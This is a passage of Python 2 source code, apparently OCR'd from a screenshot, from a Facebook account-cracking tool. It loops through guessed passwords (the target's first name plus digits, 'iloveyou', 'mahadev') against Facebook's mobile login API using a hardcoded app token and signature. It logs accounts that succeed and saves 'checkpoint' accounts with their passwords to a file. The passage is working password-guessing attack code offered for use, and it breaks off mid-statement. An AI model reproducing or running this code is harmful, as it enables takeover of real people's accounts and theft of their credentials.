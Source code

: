 					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = b['first_name'] + '123'
							data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = 'iloveyou'
									data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											pass5 = 'mahadev'
											data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '[Checkpoint] ' + user + ' | ' + pass5
													cps = open("save/checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													pass6 = b['first_name'] + '1234'
													data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")